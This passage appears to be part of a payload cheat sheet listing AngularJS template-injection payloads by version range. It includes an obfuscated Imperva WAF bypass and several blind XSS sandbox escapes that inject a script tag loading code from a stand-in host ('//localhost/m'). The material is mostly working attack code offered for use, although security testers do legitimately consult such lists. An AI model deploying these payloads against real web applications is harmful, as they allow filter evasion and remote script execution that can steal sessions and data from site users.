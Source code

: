 AngularJS bypass Waf [Imperva]

```javascript
{
  {
    x = ["constr", "uctor"];
    a = x.join("");
    b = {};
    a.sub.call.call(
      b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub), a).value,
      0,
      "pr\\u{6f}mpt(d\\u{6f}cument.d\\u{6f}main)"
    )();
  }
}
```

### Blind XSS

1.0.1 - 1.1.5 && > 1.6.0 by Mario Heiderich (Cure53)

```javascript
{{
    constructor.constructor("var _ = document.createElement('script');
    _.src='//localhost/m';
    document.getElementsByTagName('body')[0].appendChild(_)")()
}}
```

Shorter 1.0.1 - 1.1.5 && > 1.6.0 by Lewis Ardern (Synopsys) and Gareth Heyes (PortSwigger)

```javascript
{{
    $on.constructor("var _ = document.createElement('script');
    _.src='//localhost/m';
    document.getElementsByTagName('body')[0].appendChild(_)")()
}}
```

1.2.0 - 1.2.5 by Gareth Heyes (PortSwigger)

```javascript
{{
    a="a"["constructor"].prototype;a.charAt=a.trim;
    $eval('a",eval(`var _=document\\x2ecreateElement(\'script\');
    _\\x2esrc=\'//localhost/m\';
    document\\x2ebody\\x2eappendChild(_);`),"')
}}
```

1.2.6 - 1.2.18 by Jan Horn (Cure53, now works at Google Project Zero)

```javascript
{{
    (_=''.sub).call.call({}[$='constructor'].getOwnPropertyDescriptor(_.__proto__,$).value,0,'eval("
        var _ = document.createElement(\'script\');
        _.src=\'//localhost/m\';
        document.getElementsByTagName(\'body\')[0].appendChild(_)")')()
}}
```
